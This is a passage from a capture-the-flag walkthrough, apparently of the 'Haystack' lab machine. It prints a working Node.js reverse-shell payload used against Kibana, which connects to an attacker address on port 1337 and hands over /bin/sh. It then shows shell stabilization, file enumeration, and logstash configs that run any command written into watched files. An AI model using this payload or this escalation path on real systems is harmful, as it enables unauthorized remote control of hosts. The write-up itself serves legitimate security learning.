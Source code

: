 The kibana payload file:

<pre class="lang:js decode:true">(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.14.142", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();</pre>

One caveat about the exploit though, if the reverse shell breaks, you may need to rename the payload file before sending the exploit again.

Set up the PTY for the shell once you are in (makes things a little easier)&#8230;  
<img class="alignnone size-full wp-image-367" src="http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h14_55.png" alt="" width="617" height="74" srcset="http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h14_55.png 617w, http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h14_55-300x36.png 300w" sizes="(max-width: 617px) 100vw, 617px" /> 

I like to make the prompt better, but that&#8217;s just me&#8230;  
<img class="alignnone wp-image-368 size-full" src="http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h16_35-e1570121346109.png" alt="" width="565" height="52" srcset="http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h16_35-e1570121346109.png 565w, http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h16_35-e1570121346109-300x28.png 300w" sizes="(max-width: 565px) 100vw, 565px" /> 

Also, while playing with the prompt I goofed on a command and saw something interesting&#8230;  
<img class="alignnone size-full wp-image-369" src="http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h13_13.png" alt="" width="522" height="36" srcset="http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h13_13.png 522w, http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-03_11h13_13-300x21.png 300w" sizes="(max-width: 522px) 100vw, 522px" /> 

Lol, Spanish sure is key!

Anyway, we can search for files we have access to with <span class="lang:zsh decode:true crayon-inline">find / -group kibana</span> .  You&#8217;ll notice that we have access to configuration files to something called &#8220;logstash&#8221; as well. Logstash is another piece of software from elasticsearch, but this one collects and processes input instead of output like kibana.

There were a few files that seemed interesting:

<pre class="lang:zsh decode:true">[kibana@haystack conf.d]$  ls
filter.conf  input.conf  output.conf
[kibana@haystack conf.d]$  cat filter.conf
filter {
        if [type] == "execute" {
                grok {
                        match =&gt; { "message" =&gt; "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
[kibana@haystack conf.d]$  cat input.conf
input {
        file {
                path =&gt; "/opt/kibana/logstash_*"
                start_position =&gt; "beginning"
                sincedb_path =&gt; "/dev/null"
                stat_interval =&gt; "10 second"
                type =&gt; "execute"
                mode =&gt; "read"
        }
}
[kibana@haystack conf.d]$  cat output.conf
output {
        if [type] == "execute" {
                stdout { codec =&gt; json }
                exec {
                        command =&gt; "%{comando} &"
                }
        }
}